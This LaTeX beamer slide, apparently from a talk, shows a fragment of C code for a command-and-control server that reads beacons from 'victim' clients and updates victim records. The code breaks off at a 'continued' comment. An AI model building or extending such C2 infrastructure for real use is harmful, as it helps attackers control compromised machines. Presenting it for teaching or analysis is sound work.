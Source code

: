 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Handling Victim Sessions 0}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        void *net_t_client(void *args){
          net_t_client_args_t *p_args = args;
          int sock = p_args->client_fd;
          net_client_beacon_t **p_victims = p_args->p_victims;                             // Get Pointer
          net_server_beacon_t **p_commands = p_args->p_commands;                           // Get Pointer
          net_client_beacon_t *p_net_client_beacon = malloc(sizeof(net_client_beacon_t));  // Allocate Client
          net_server_beacon_t *p_net_server_beacon = malloc(sizeof(net_server_beacon_t));  // Allocate Server
          while (true){
            bool command = false;
            int read = recv(sock, p_net_client_beacon, sizeof(net_client_beacon_t), 0);    // Read Client Beacons
            if (!read){ break; }
            if (read < 0){
              fprintf(stderr, "[-] %s\n", strerror(errno));
              free(p_net_client_beacon);
              pthread_exit(NULL);
            }
            net_update_victims(p_net_client_beacon, p_victims);                           // Update Victim Data
            // contuned ...
          }
        }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
